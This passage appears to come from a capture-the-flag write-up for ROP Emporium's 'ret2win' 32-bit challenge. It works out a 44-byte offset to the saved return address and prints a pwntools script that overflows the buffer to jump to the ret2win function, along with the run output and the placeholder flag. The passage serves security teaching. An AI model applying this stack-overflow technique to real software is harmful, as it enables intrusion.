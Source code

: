 * We can see that if we increment the `ebp` by 4, it will point to the saved return address.
* Therefore the distance between the buffer and the saved return address is `offset+4` which is equal to 44.

### Exploit requirements

* We now have all the information we need to create an exploit.
  * [ ] Address of `ret2win`: `0x0804862c`
  * [ ] Distance between the buffer and return address: `44`

### Exploit

```python
from pwn import *

padding = b"a"*44
ret2win_addr = p32(0x0804862c)

payload = padding + ret2win_addr

p = process('./ret2win32')
p.sendline(payload) 
p.interactive()
```

* Let's run the exploit.

```
$ python exploit.py
[x] Starting local process './ret2win32'
[+] Starting local process './ret2win32': pid 35136
[*] Switching to interactive mode
ret2win by ROP Emporium
x86

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
```
